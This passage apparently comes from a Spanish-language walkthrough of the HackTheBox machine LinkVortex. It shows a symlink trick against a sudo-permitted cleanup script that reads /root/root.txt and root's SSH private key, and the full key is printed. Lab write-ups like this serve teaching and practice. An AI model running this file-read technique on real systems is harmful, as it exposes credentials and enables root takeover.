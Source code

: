 ```bash
bob@linkvortex:~$ ln -s /root/root.txt gzzcoo.txt      
bob@linkvortex:~$ ln -s /home/bob/gzzcoo.txt gzzcoo.png
bob@linkvortex:~$ ls -l
total 4
lrwxrwxrwx 1 bob  bob 20 Jan 15 02:27 gzzcoo.png -> /home/bob/gzzcoo.txt
lrwxrwxrwx 1 bob  bob 14 Jan 15 02:27 gzzcoo.txt -> /root/root.txt
-rw-r----- 1 root bob 33 Jan 15 00:55 user.txt
bob@linkvortex:~$ sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh gzzcoo.png
Link found [ gzzcoo.png ] , moving it to quarantine
Content:
6cbb92bb3649********************
```

Para obtener una shell como usuario `root` lo que realizamos es el mismo proceso anterior pero a través de la clave privada SSH del usuario `root`.&#x20;

```bash
bob@linkvortex:~$ ln -s /root/.ssh/id_rsa gzzcoo2.txt
bob@linkvortex:~$ ln -s /home/bob/gzzcoo2.txt gzzcoo.png
bob@linkvortex:~$ ls -l
total 4
lrwxrwxrwx 1 bob  bob 21 Jan 19 15:17 gzzcoo.png -> /home/bob/gzzcoo2.txt
lrwxrwxrwx 1 bob  bob 17 Jan 19 15:17 gzzcoo2.txt -> /root/.ssh/id_rsa
-rw-r----- 1 root bob 33 Jan 19 15:14 user.txt
bob@linkvortex:~$ sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh gzzcoo.png
Link found [ gzzcoo.png ] , moving it to quarantine
Content:
-----BEGIN OPENSSH PRIVATE KEY-----
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
```